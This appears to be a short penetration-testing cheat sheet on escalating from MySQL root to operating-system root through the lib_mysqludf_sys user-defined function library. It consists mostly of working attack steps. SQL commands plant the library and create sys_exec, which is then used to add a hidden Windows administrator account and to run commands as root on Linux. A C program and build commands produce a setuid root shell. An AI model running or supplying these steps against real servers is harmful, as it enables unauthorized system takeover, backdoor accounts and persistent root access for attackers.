 # MySQL-Root to System-Root

## Summarized References
- [MySQL Root to System Root with lib_mysqludf_sys for Windows and Linux](https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/)

Take lib from SQLMap and dump it into the server:
```
udf/mysql/linux/32/lib_mysqludf_sys.so
udf/mysql/linux/64/lib_mysqludf_sys.so
udf/mysql/windows/32/lib_mysqludf_sys.dll
udf/mysql/windows/64/lib_mysqludf_sys.dll
```

On Windows:
```
USE mysql;
CREATE TABLE npn(line blob);
INSERT INTO npn values(load_file('C://xampplite//htdocs//mail//lib_mysqludf_sys.dll'));
SELECT * FROM mysql.npn INTO DUMPFILE 'c://windows//system32//lib_mysqludf_sys_32.dll';
CREATE FUNCTION sys_exec RETURNS integer SONAME 'lib_mysqludf_sys_32.dll';
SELECT sys_exec("net user npn npn12345678 /add");
SELECT sys_exec("net localgroup Administrators npn /add");
```

On Linux:
```
use mysql;
create table npn(line blob);
insert into npn values(load_file('/home/npn/lib_mysqludf_sys.so'));
select * from npn into dumpfile '/usr/lib/lib_mysqludf_sys.so';
create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
select sys_exec('id > /tmp/out; chown npn.npn /tmp/out');

npn@pwn:~$ cat /tmp/out
  uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm)

// Create a shell, compile it, "chmod +s /tmp/shell" and get reverse shell
```
```
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
    setuid(0); setgid(0); system(“/bin/bash”);
}

```
```
gcc -o /tmp/shell /home/npn/shell.c
chmod +s /tmp/shell
```
